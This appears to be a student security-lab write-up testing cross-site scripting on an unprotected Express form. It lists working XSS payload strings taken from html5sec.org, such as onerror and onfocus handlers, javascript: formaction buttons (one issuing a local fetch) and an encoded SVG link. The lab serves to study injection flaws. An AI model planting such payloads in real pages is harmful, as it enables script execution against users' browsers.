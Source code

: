 ```javascript
app.post('/bar', function (req, res) {
  console.log('url:', req.url);
  console.log('post request: requestbody:', req.body);
  console.log('post query: :', req.query);
  res.sendFile(`${__dirname}/public/index.html`);
});
```

## results
The purpose of this laboration is to see forminput in an unprotected webcontext convert into commands.
All testcases are derived from [https://html5sec.org/](https://html5sec.org/).
Notable is that merely the "innerHTML" method to readd the value to the DOM gives the most effect.

{{< figure src="/sundvall-portfolio/post/images/security-lab-fetch.gif" caption="Textstring added to form input and added to element with innerHTML creates a form with button that on cick does a networkrequest to local endpoint." >}}

### text that converts to javascript
All these strings are converted into javascript:
```HTML
<img src='x' onerror='alert(1)'>

<form id="test"></form><button form="test" formaction="javascript:alert('what???')">Click here - execute exiting script!</button>

<form id="test"></form><button form="test" formaction="javascript:console.log('what???')">Click here - execute exiting script!</button>

<form id="test"></form><button form="test" formaction="javascript:fetch('/foo').then((e,f)=>console.log(e)).catch(f=>console.log(f))">Click here - execute fetch!</button>

<input onfocus=write('console') autofocus>

<input onfocus=write('console.log') autofocus>

<video><source onerror="alert(1)">
```

This script has the effect of replacement of the entire content whenever "tab" or "click" is used:
```HTML
<input onfocus=write(1) autofocus>
```
This script prints a number, but only for "x" and does not work with for example "alert(y)":
```HTML
<img src='x' onerror='alert(x)'>
```

This script replaces the current page with an svg:
```HTML
<a href="javascript:&apos;<svg onload&equals;alert&lpar;1&rpar;&nvgt;&apos;">CLICK</a>
```
